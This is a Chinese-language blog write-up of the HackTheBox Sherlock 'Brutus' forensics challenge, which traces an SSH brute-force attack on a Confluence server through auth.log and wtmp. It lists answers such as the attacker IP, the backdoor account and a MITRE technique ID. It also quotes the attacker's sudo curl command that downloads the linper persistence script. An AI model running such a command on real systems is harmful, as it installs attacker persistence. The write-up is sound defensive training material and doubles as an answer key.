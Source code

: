 ```yaml
---
weight: 999
title: "Brutus"
description: ""
icon: "article"
date: "2025-05-30T10:51:07+08:00"
lastmod: "2025-05-30T10:51:07+08:00"
draft: false
toc: true
---
```


解压密码为hacktheblue

>在这个非常简单的 Sherlock 任务中，您将熟悉 Unix 系统的 auth.log 和 wtmp 日志。我们将探讨一个 Confluence 服务器通过 SSH 服务遭受暴力破解的场景。攻击者获取服务器访问权限后，还进行了其他活动，这些都可以通过 auth.log 追踪。尽管 auth.log 主要用于暴力破解分析，但在本次调查中，我们将深入挖掘这一日志的全部潜力，包括权限提升、持久化攻击的迹象，甚至部分命令执行的可见性。

# Task1
>分析 auth.log 日志。攻击者用于实施暴力破解攻击的 IP 地址是什么？
>
>65.2.161.68


![](https://gitee.com/inklong/blog-pic/raw/master/images/20250530222308030.png)

# Task2
>识别攻击者手动登录服务器以执行其目标的时间戳。登录时间将与认证时间不同，可在 wtmp 记录中找到。
>
>root


![](https://gitee.com/inklong/blog-pic/raw/master/images/20250531185222568.png)

# Task3
>识别攻击者手动登录服务器以执行其目标的时间戳。登录时间将与认证时间不同，可在 wtmp 记录中找到。
>
>2024-03-06 06:32:45

分析wtmp文件即可
# Task4
>SSH 登录会话在登录时会被跟踪并分配一个会话编号。攻击者针对问题 2 中用户账户的会话被分配了哪个会话编号？
>
>37


![](https://gitee.com/inklong/blog-pic/raw/master/images/20250531185222568.png)

# Task5
>攻击者在服务器上添加了一个新用户作为其持久化策略的一部分，并赋予该新用户账户更高的权限。这个账户的名称是什么？
>
>cyberjunkie


![](https://gitee.com/inklong/blog-pic/raw/master/images/20250531185353805.png)

# Task6
>用于通过创建新账户实现持久化的 MITRE ATT&CK 子技术 ID 是什么？
>
>T1136.001

技术为创建用户-本地用户
https://attack.mitre.org/techniques/T1136/
# Task7
>根据 auth.log，攻击者的第一次 SSH 会话何时结束？
>
>2024-03-06 06:37:24


![](https://gitee.com/inklong/blog-pic/raw/master/images/20250531185409987.png)

# Task8
>攻击者登录其后门账户并利用其更高权限下载了一个脚本。使用 sudo 执行的具体完整命令是什么？
>
>/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh


![](https://gitee.com/inklong/blog-pic/raw/master/images/20250531185422577.png)